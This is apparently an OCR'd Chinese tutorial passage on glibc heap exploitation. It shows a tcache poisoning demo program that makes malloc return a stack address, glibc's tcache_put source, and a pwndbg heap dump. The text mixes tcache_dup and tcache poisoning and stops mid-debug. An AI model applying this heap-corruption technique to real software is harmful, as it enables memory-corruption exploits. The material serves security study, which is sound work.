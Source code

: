 ```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
// tcache poisoning
int main()
{
	"This file demonstrates a simple tcache poisoning attack by tricking malloc into"
	"returning a pointer to an arbitrary location (in this case, the stack)."
	"The attack is very similar to fastbin corruption attack."

	size_t stack_var;
	fprintf(stderr, "The address we want malloc() to return is %p.\n", (char *)&stack_var);

	"Allocating 1 buffer."
	intptr_t *a = malloc(128);
	fprintf(stderr, "malloc(128): %p\n", a);
	"Freeing the buffer..."
	free(a);

	fprintf(stderr, "Now the tcache list has [ %p ].\n", a);
	fprintf(stderr, "We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
		"to point to the location to control (%p).\n", sizeof(intptr_t), a, &stack_var);
	a[0] = (intptr_t)&stack_var;

	fprintf(stderr, "1st malloc(128): %p\n", malloc(128));
	fprintf(stderr, "Now the tcache list has [ %p ].\n", &stack_var);

	intptr_t *b = malloc(128);
	fprintf(stderr, "2nd malloc(128): %p\n", b);
	"We got the control"
	return 0;
}
```

我们可以很明显的感受到tcache_dup就是弱化版的fastbin_double_free，我们先看一下源码相关的函数

```c
tcache_put (mchunkptr chunk, size_t tc_idx)
{
      tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
      assert (tc_idx < TCACHE_MAX_BINS);
      e->next = tcache->entries[tc_idx];
      tcache->entries[tc_idx] = e;
      ++(tcache->counts[tc_idx]);
}
```

这就是我之前所说过引入tcache机制降低了安全性的一个体现，本来应该要有tcache->counts[tc_idx] 的相关检验，却为提升效率而去掉了，这也侧面的说明安全和性能处在一个此消彼长的状态

我们简单的调试下tcache_dup

```bash

pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55a661cd5270 (size : 0x20d90) 
```